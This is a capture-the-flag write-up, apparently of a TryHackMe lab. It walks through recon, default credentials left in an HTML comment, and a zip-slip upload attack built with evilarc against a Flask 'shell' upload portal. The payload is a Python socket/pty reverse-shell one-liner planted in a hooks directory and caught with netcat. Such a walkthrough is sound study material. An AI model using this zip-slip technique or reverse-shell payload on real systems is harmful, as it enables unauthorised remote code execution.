










## Scenario

> 🛎️ Concierge Briefing
> 
> You find it on the beach: pretty, ordinary, the kind of thing nobody thinks to check. Slip something inside and hold it to your ear.
> 
> The Byte Lotus beachfront lets guests personalise their in-room display by uploading a shell — a little souvenir pack of shoreline ambiance. Staff publish them through the Shoreline Display portal, and once a shell is "held to the room's ear" it plays its shore. Slip past what the portal forgets to check, and the shell answers with a shell of your own.

Access via: `10.113.130.49`

## Reconnaissance

Swept every TCP port on the target with `nmap` before narrowing down to make sure nothing on an unusual port got missed.

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ sudo nmap 10.113.130.49 -p- -T4
Starting Nmap 7.991 ( https://nmap.org ) at 2026-11-22 17:59 +0200
Nmap scan report for 10.113.130.49
Host is up (0.035s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
5000/tcp open  upnp

Nmap done: 1 IP address (1 host up) scanned in 19.79 seconds
```

Only two ports came back open. Followed up with version and default-script detection on them:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ sudo nmap 10.113.130.49 -p22,5000 -sV -sC
Starting Nmap 7.991 ( https://nmap.org ) at 2026-11-22 18:00 +0200
Nmap scan report for 10.113.130.49
Host is up (0.035s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.18 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 88:e0:69:c7:ae:73:80:c0:c0:70:f0:aa:ad:0e:06:74 (ECDSA)
|_  256 c8:12:d0:96:fd:a5:f9:73:e5:2d:b4:4d:a1:f4:c4:59 (ED25519)
5000/tcp open  http    Gunicorn
|_http-server-header: gunicorn
|_http-title: Did not follow redirect to /login
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.72 seconds
```

Confirmed port 22 as OpenSSH 9.6p1 on Ubuntu and port 5000 as a Gunicorn-served Flask-style app that redirects straight to `/login`.

## Finding Credentials in the Login Page's Source

Browsing to `http://10.113.130.49:5000` redirected automatically to `/login`, matching what Nmap had already shown. 



Wappalyzer added nothing beyond what the stack already suggested:


No cookies were being set, and there was no `robots.txt`. Viewing the page source turned up something more useful: an HTML comment left in the login page with a default login.



Tried the credentials to see whether they'd actually been rotated—they hadn't, and they logged straight in.

## Exploring the Upload Feature

The logged-in dashboard ("Room Service / Shoreline Display") centred on an upload form for "shells"—little `.zip` souvenir packs that personalise the in-room display. Read this as a file-upload-attacks type lab.



Viewing the page source showed the form posts to `/upload`:

```html
<form method="post" action="/upload" enctype="multipart/form-data">
  <label for="shell">Shell (.zip)</label>
  <input id="shell" type="file" name="shell" accept=".zip">
  <button type="submit">Hold it to the room's ear</button>
</form>
```

Requesting `/upload` directly confirmed it only accepts the `POST` the form uses:

```html
<!doctype html>
<html lang=en>
<title>405 Method Not Allowed</title>
<h1>Method Not Allowed</h1>
<p>The method is not allowed for the requested URL.</p>
```

Also inspected the form through the DOM, but it didn't turn up anything beyond what the page source had already shown.

## Confirming the Upload Flow With a Baseline Shell

Before trying anything exotic, built a minimal shell to see how the portal stores an upload. The dashboard's own description said a shell needs a `shell.json` manifest listing its assets, so started with the simplest possible one:

```shell
┌──(—REDACTED—㉿kali)-[~/test_shell]
└─$ echo '{"name":"test","assets":[]}' > shell.json

┌──(—REDACTED—㉿kali)-[~/test_shell]
└─$ zip shell.zip shell.json
  adding: shell.json (stored 0%)
```

Uploading `shell.zip` worked cleanly: the portal reported "Shell 'test' brought ashore. Stored at `shells/75655a323db0/`", and browsing to `/shells/75655a323db0/shell.json` showed the manifest back exactly as uploaded. This confirmed the upload is extracted server-side into a per-upload directory under `shells/`.



## Preparing evilarc for a Zip Slip Test

Given a `.zip` that gets extracted server-side into a path the portal controls, this looked like a candidate for zip slip—a path-traversal filename inside the archive escaping the intended extraction directory. Read up on the technique via PayloadsAllTheThings' Zip Slip page before trying it:

https://swisskyrepo.github.io/PayloadsAllTheThings/Zip%20Slip/#summary

To build the traversal payloads, pulled down `evilarc`, a purpose-built tool for crafting zip-slip archives:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ sudo wget https://raw.githubusercontent.com/ptoomey3/evilarc/refs/heads/master/evilarc.py -O /opt/evilarc.py
--2026-11-22 18:39:22--  https://raw.githubusercontent.com/ptoomey3/evilarc/refs/heads/master/evilarc.py
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 2606:50c0:8001::154, 2606:50c0:8003::154, 2606:50c0:8002::154, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|2606:50c0:8001::154|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3645 (3.6K) [text/plain]
Saving to: '/opt/evilarc.py'

/opt/evilarc.py                                            100%[========================================================================================================================================>]   3.56K  --.-KB/s    in 0s

2026-11-22 18:39:22 (68.1 MB/s) - '/opt/evilarc.py' saved [3645/3645]
```

Symlinked the script onto the `PATH` so it could be called as plain `evilarc` from anywhere, instead of typing the full path to `/opt/evilarc.py` each time.

Reading through the script's option parser showed what flags it exposes: `--output-file`/`-f` for the archive name (defaulting to `evil.zip`), `--depth`/`-d` for how many `../` segments to prepend (defaulting to 8), `--os`/`-o` for the path style (`win` or `unix`), and `--path`/`-p` for the directory to append after the traversal.

```python
def main(argv=sys.argv):
	p = optparse.OptionParser(description = 'Create archive containing a file with directory traversal', 
								prog = 'evilarc',
								version = '0.1',
								usage = '%prog <input file>')
	p.add_option('--output-file', '-f', dest="out", help="File to output archive to.  Archive type is based off of file extension.  Supported extensions are zip, jar, tar, tar.bz2, tar.gz, and tgz.  Defaults to evil.zip.")
	p.set_default("out", "evil.zip")
	p.add_option('--depth', '-d', type="int", dest="depth", help="Number directories to traverse. Defaults to 8.")
	p.set_default("depth", 8)
	p.add_option('--os', '-o', dest="platform", help="OS platform for archive (win|unix). Defaults to win.")
	p.set_default("platform", "win")
	p.add_option('--path', '-p', dest="path", help="Path to include in filename after traversal.  Ex: WINDOWS\\System32\\")	
	p.set_default("path", "")
	options, arguments = p.parse_args()
```

First run hit a wall:

```shell
┌──(—REDACTED—㉿kali)-[~/test_shell]
└─$ evilarc shell.json -o unix -f shell2.zip -p static/
  File "/usr/local/bin/evilarc", line 65
    	print "Creating " + options.out + " containing " + zpath;	
    	^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
SyntaxError: Missing parentheses in call to 'print'. Did you mean print(...)?
```

The script uses Python 2's `print` statement syntax, which Python 3 doesn't accept without parentheses. Ran `2to3` against the script to convert its Python 2 syntax over to Python 3, after which it executed without error.

## First Zip Slip Attempt — Embedding `shell.json` Directly (Dead End)

With evilarc working, first tried pointing the traversal straight at the real `shell.json`, aiming to drop it directly into the app's `static/` folder (a default flask sub-directory) using evilarc's default depth:

```shell
┌──(—REDACTED—㉿kali)-[~/test_shell]
└─$ evilarc shell.json -o unix -f shell2.zip -p static/
Creating shell2.zip containing ../../../../../../../../static/shell.json
```

**Breakdown:**

- `shell.json` — the file to wrap in the archive
- `-o unix` — uses forward-slash, Unix-style path separators
- `-f shell2.zip` — names the output archive `shell2.zip`
- `-p static/` — the directory appended after the `../` traversal sequence

Builds an archive whose single entry's internal path is `../../../../../../../../static/shell.json`, using evilarc's default depth of 8.

Uploading `shell2.zip` didn't work: the portal responded "Shell is missing shell.json." 


Whatever the traversal is doing, the portal's own upload handler evidently checks for a literal top-level `shell.json` entry in the archive before accepting it at all, so hiding the real one behind a traversal path doesn't satisfy that check.

Since evilarc only takes one input file per run, with no option to leave a second entry untouched, worked out that the fix was to just append a plain `shell.json` into the already-built archive afterwards with an ordinary `zip` command, since `zip` adds new entries to an existing archive without disturbing what's already there.

## Rebuilding With a Decoy File at the Default Depth (Dead End)

Redid the attempt with a throwaway file instead, so its landing spot would be easy to confirm, and appended a real `shell.json` alongside it to satisfy the portal's check:

```shell
┌──(—REDACTED—㉿kali)-[~/test_shell]
└─$ echo 'test' > test.txt

┌──(—REDACTED—㉿kali)-[~/test_shell]
└─$ evilarc test.txt -o unix -f shell3.zip -p static/
Creating shell3.zip containing ../../../../../../../../static/test.txt

┌──(—REDACTED—㉿kali)-[~/test_shell]
└─$ zip shell3.zip shell.json
  adding: shell.json (stored 0%)

┌──(—REDACTED—㉿kali)-[~/test_shell]
└─$ zipinfo shell3.zip
Archive:  shell3.zip
Zip file size: 357 bytes, number of entries: 2
-rw-rw-r--  2.0 unx        5 b- stor 26-Nov-22 18:58 ../../../../../../../../static/test.txt
-rw-rw-r--  3.0 unx       28 tx stor 26-Nov-22 18:13 shell.json
2 files, 33 bytes uncompressed, 33 bytes compressed:  0.0%
```

**Breakdown:**

- `echo 'test' > test.txt` — writes a small, easily identifiable decoy file
- `evilarc test.txt -o unix -f shell3.zip -p static/` — same as the previous evilarc run, but on `test.txt` instead of `shell.json`, again at the default depth of 8
- `zip shell3.zip shell.json` — appends the real manifest alongside the traversal entry
- `zipinfo shell3.zip` — lists the archive's entries in detail (permissions, creating tool/version, size, compression, timestamp, name), used here to confirm the traversal path looked right before uploading

Uploading `shell3.zip` returned an Internal Server Error on the response page, but reloading the dashboard showed it had actually been stored, under `shells/1bd06154d423/`. 





Checking `/static/test.txt` directly, though, came back 404 Not Found—the decoy file hadn't landed in the app's `static/` folder.



## Fixing the Traversal Depth

At this point, I was a bit stuck, and I decided to compare notes against several other writeups of the same lab. I noticed that their payloads used only `../../static/`—two levels of traversal—against evilarc's default of eight. 

`zipinfo` also showed a difference in the "version made by" field between the two archives (`2.0 unx` on the decoy entry versus `3.0 unix`/`3.0 unx` on the manifest entries), and wondered whether that explained the discrepancy. Working through it, that field turned out to be irrelevant—it's zip metadata recording the tool and host OS that created each entry, not anything the extraction logic reads. 

The real difference was the traversal depth: going up eight directories very likely overshot past the Flask app's actual root entirely, since `../` past the filesystem root just stays at `/` on Linux—landing the decoy file somewhere other than the intended `static/` folder, consistent with the 404.

Rebuilt the archive with a depth of 2 to match the other writeup's working value:

```shell
┌──(—REDACTED—㉿kali)-[~/test_shell]
└─$ evilarc test.txt -o unix -f shell4.zip -p static/ -d 2
Creating shell4.zip containing ../../static/test.txt

┌──(—REDACTED—㉿kali)-[~/test_shell]
└─$ zip shell4.zip shell.json
  adding: shell.json (stored 0%)

┌──(—REDACTED—㉿kali)-[~/test_shell]
└─$ zipinfo shell4.zip
Archive:  shell4.zip
Zip file size: 321 bytes, number of entries: 2
-rw-rw-r--  2.0 unx        5 b- stor 26-Nov-22 18:58 ../../static/test.txt
-rw-rw-r--  3.0 unx       28 tx stor 26-Nov-22 18:13 shell.json
2 files, 33 bytes uncompressed, 33 bytes compressed:  0.0%
```

The only change from the previous run is `-d 2`, setting the traversal to two `../` segments instead of the default eight.

This time the upload confirmed cleanly ("Shell 'test' brought ashore. Stored at `shells/dea0d717197d/`"), with no initial Internal Server Error, and browsing to `/static/test.txt` showed the decoy file's content, `test`. 



This confirmed depth 2 was the correct value and that the zip-slip write was landing in the app's real `static/` folder — a working proof of concept.

## Targeting the Hooks Directory With a Reverse Shell

The dashboard's own description of the upload feature mentioned "automation hooks" that a "theme worker" applies shortly after a shell comes ashore. 

> A shell may include optional automation hooks — the theme worker applies these for you shortly after the shell comes ashore, so you don't have to touch each tablet by hand. Allowed asset types: png jpg gif svg css json.

That suggested a `hooks/` directory somewhere that the theme worker executes against. 

With the write primitive confirmed working, the next step was to drop a reverse shell into `hooks/` instead of `static/`. Consulted the [InternalAllTheThings reverse shell cheat sheet](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#python) and picked the basic `socket` + `pty.spawn` one-liner:



Adapted the basic `socket` + `pty.spawn` one-liner this way, with the listener address and port filled in, and saved it as a standalone script:

```python
import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("—REDACTED—",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")
```

**Breakdown:**

- `import socket,os,pty` — loads the modules needed to open a network socket, redirect file descriptors, and spawn an interactive shell
- `socket.socket(socket.AF_INET,socket.SOCK_STREAM)` — creates a TCP/IPv4 socket
- `s.connect(("—REDACTED—",4242))` — connects out to the listener at that IP and port
- `os.dup2(s.fileno(),0)`, `os.dup2(s.fileno(),1)`, `os.dup2(s.fileno(),2)` — redirect the process's standard input, output, and error (file descriptors 0, 1, 2) onto the socket, so input typed at the listener reaches the shell and the shell's output is sent back over the connection
- `pty.spawn("/bin/sh")` — spawns an interactive `/bin/sh` attached to those redirected descriptors

As a whole, this connects back to the listener and hands over an interactive shell once run.

Built the payload archive the same way as before, at depth 2, just pointed at `hooks/pyrevshell.py` instead of `static/test.txt`, and targeting `hooks/` instead of `static/`:

```shell
┌──(—REDACTED—㉿kali)-[~/test_shell]
└─$ evilarc pyrevshell.py -o unix -f payload.zip -p hooks/ -d 2
Creating payload.zip containing ../../hooks/pyrevshell.py

┌──(—REDACTED—㉿kali)-[~/test_shell]
└─$ zip payload.zip shell.json
  adding: shell.json (stored 0%)

┌──(—REDACTED—㉿kali)-[~/test_shell]
└─$ zipinfo payload.zip
Archive:  payload.zip
Zip file size: 518 bytes, number of entries: 2
-rw-rw-r--  2.0 unx      194 b- stor 26-Nov-22 20:10 ../../hooks/pyrevshell.py
-rw-rw-r--  3.0 unx       28 tx stor 26-Nov-22 18:13 shell.json
2 files, 222 bytes uncompressed, 222 bytes compressed:  0.0%
```

## Catching the Shell and Reading the Flag

Started a listener before uploading:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ nc -lvnp 4242
listening on [any] 4242 ...
connect to [—REDACTED—] from (UNKNOWN) [10.113.130.49] 54566
$
```

Uploaded `payload.zip` ("Shell 'test' brought ashore. Stored at `shells/a8765f8aede5/`"). It went through without the portal complaining this time. 



Shortly after, the theme worker's automation hook picked up `pyrevshell.py` from the planted `hooks/` directory and ran it, landing a connection on the listener. Stabilised the shell into a proper TTY, though it turned out unnecessary; nothing further needed more than sitting in the shell's home directory.

```shell
roomservice@tryhackme-2404:/var/www/conch$ cd ~
roomservice@tryhackme-2404:~$ ls
flag.txt
roomservice@tryhackme-2404:~$ cat flag.txt
—REDACTED—
```

**Answer:** `—REDACTED—`